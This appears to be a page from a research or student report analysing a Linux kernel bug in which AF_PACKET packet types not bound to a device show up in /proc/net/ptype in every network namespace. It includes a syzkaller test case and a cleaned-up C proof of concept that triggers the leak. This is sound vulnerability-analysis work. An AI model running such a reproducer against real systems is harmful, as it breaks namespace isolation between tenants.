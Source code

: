 \documentclass[10pt,twocolumn,a4paper]{article}
\begin{document}
\subsection{Bug Description}
Packets that are bound to devices are only shown in the namespace of the device. However, if packet
types are not bound to a device they have no reference to a namespace. This means they are shown in all network
namespaces. This allows a process to create a packet type in a network namespace. A second
process can see this packet type in a different network namespace thus breaking isolation.


\subsection{Bug Reproduction}
The analysis is done on the customized kit kernel 5.6 which was from the artifact repository\cite{2}.
Sadly the kernel that kit used is not suitable for custom debugging.
The test case that caused the bug given by syzcaller is the following: 
\begin{lstlisting}{caption=sender test case}
r0 = socket$packet(0x11, 0x2, 0x300)
bind$packet(r0, 
    &(0x7f0000000100)={0x11, 0xc, 0x0, 0x1, 0x0, 0x6,
    @multicast}, 0x14)
bind$packet(r0, 
&(0x7f0000000040)={0x11, 0x7, 0x0, 0x1, 0x0, 0x6,
@broadcast}, 0x14)
\end{lstlisting}
The receiver test case can also be taken from syzcaller but the process is tedious and error-prone.
We already know that the leakage happens in the /proc/net/ptype. Thus we can use cat.
Syzcaller provides tools to convert the test case to C code. 
Out of the box this C code is ugly and needs to be modified a bit to reproduce the bug.
After modifying and compiling we can run the test case manually (with unshare -n and root if this
is out of scope). After the code is run one can see the following
in /proc/net/ptype:
\begin{lstlisting}
Type Device      Function
0800          ip_rcv
0806          arp_rcv
0007          packet_rcv // Our POC
86dd          ipv6_rcv
\end{lstlisting}
The POC works. Sadly syzcaller does not comply with any coding standards and thus the code is
not very readable. However using strace, r2\cite{29} and gdb\cite{28} we can rewrite the code easily and get this
human-readable version:
\begin{lstlisting}{caption=cleaned up poc}
/*...*/
int main() {
    struct sockaddr  a = {.sa_family = AF_PACKET,.sa_data= "\000\f\000\000\000\000\001\
    \000\000\000\000\000\000"
    };
    struct sockaddr  b = {.sa_family = AF_PACKET,.sa_data= "\000\a\000\000\000\000\001\
    \000\000\006\377\377\377\377"
    };
    int sock = socket(AF_PACKET, SOCK_DGRAM, htons(ETH_P_ALL));

    bind(sock, &a, 20);
    bind(sock , &b, 20);
    return 0;
}
\end{lstlisting}
While this might not be the exact code that syzcaller gave out, it still
produces the same results in /proc/net/ptype. Reducing the test case it turns out that only one bind is necessary to trigger the bug. The data in the sockaddr struct seems to be arbitrary
as long as it does not describe a valid device. 
\end{document}
